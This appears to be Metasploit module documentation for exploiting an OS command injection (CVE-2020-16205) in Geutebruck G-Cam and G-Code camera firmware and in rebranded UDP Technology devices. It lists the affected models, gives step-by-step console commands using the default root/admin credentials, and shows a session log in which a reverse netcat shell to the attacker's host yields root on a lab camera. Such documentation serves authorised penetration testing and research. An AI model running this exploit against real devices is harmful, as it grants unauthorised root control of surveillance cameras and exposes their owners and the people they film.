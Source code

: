 ## Vulnerable Application

The web interface of the following [Geutebruck](https://www.geutebrueck.com) products using firmware <= 1.12.0.25 and also the 1.12.13.2 and the 1.12.14.5 "limited versions" are concerned:
Encoder and E2 Series Camera models:
G-Code: 
 EEC-2xxx
G-Cam: 
 EBC-21xx
 EFD-22xx
 ETHC-22xx
 EWPC-22xx

Many brands use the same firmware:
UDP Technology (which is also the supplier of the firmware for the other vendors)
Ganz
Visualint
Cap
THRIVE Intelligence
Sophus
VCA
TripCorps
Sprinx Technologies
Smartec
Riva

This module has been tested on a Geutebruck 5.02024 G-Cam/EFD-2250 running 1.12.14.5 firmware.

### Description

This exploit a simple OS command injection (CVE-2020-16205) in the /uapi-cgi/admin/testaction.cgi page of the web interface of the Geutebruck G-Cam and G-Code products.
Here is the advisory: https://us-cert.cisa.gov/ics/advisories/icsa-20-219-03

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_testaction_exec`
  4. Do: `set httpusername root`
  5. Do: `set httppassword admin`
  6. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `set payload cmd/unix/reverse_netcat_gaping`
  7. Do: `check` to be sure the target is vulnerable
  8. Do: `exploit`
  9. You should get a shell

## Options

The default credentials to log on the web interface are root/admin.

 ### HTTPUSERNAME
 A username used to authenticate on the admin page. **Default: root**

 ### HTTPPASSWORD
The password of the username used to authenticate on the admin page. **Default: admin**

## Scenarios

```
msf5 > use exploit/linux/http/geutebruck_testaction_exec
msf5 exploit(linux/http/geutebruck_testaction_exec) >
msf5 exploit(linux/http/geutebruck_testaction_exec) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httpusername root
httpusername => root
msf5 exploit(linux/http/geutebruck_testaction_exec) > set httppassword admin
httppassword => admin
msf5 exploit(linux/http/geutebruck_testaction_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf5 exploit(linux/http/geutebruck_testaction_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf5 exploit(linux/http/geutebruck_testaction_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2020-04-02 18:26:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-ge52275bd #1 PREEMPT Thu Jul 25 20:25:39 KST 2019 armv5tejl GNU/Linux
```
